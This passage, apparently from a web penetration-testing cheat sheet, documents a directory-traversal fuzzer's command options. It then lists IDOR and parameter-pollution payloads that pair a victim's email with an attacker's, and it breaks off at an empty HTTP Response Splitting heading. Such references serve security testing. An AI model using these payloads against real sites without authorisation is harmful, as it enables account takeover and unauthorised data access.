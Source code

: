 | Option | Description |
| --- | --- |
| -m | Module (http, http-url, ftp, tftp payload, stdout) |
| -h | Hostname |
| -O | Operating System detection for intelligent fuzzing (nmap) |
| -o | Operating System type if known ("windows", "unix", or "generic") |
| -d | Depth of traversals (default: 6) |
| -f | Specific filename (default: according to OS detected) |
| -S | Use SSL for HTTP and Payload module (not needed for http-url) |
| -u | URL with the part to be fuzzed marked as TRAVERSAL |
| -k | Text pattern to match in the response |
| -p | Filename with the payload to be sent and the part to be fuzzed marked with the TRAVERSAL keyword |
| -x | Port to connect (default: HTTP=80; FTP=21; TFTP=69) |
| -U | Username (default: 'anonymous') |
| -P | Password (default: 'dot(at)dot.pwn') |
| -M | HTTP Method to use when using the 'http' module (GET, POST, HEAD, COPY, MOVE, default: GET) |
| -b | Break after the first vulnerability is found |
| -C | Continue if no data was received from host |

### Insecure Direct Object References (IDOR)

First, try to simply change one value to another, e.g. change `victim@somedomain.com` to `attacker@somedomain.com`, or e.g. change ID `1` to `2`, etc.

It is sometimes possible that ID `1` relates to admin account or admin role.

Second, try parameter pollution:

```fundamental
email=victim@somedomain.com,attacker@somedomain.com
email=victim@somedomain.com attacker@somedomain.com

email=victim@somedomain.com&email=attacker@somedomain.com
email[]=victim@somedomain.com&email[]=attacker@somedomain.com

{ "email": "victim@somedomain.com,attacker@somedomain.com" }
{ "email": "victim@somedomain.com attacker@somedomain.com" }

{ "email": ["victim@somedomain.com", "attacker@somedomain.com"] }
```

### HTTP Response Splitting
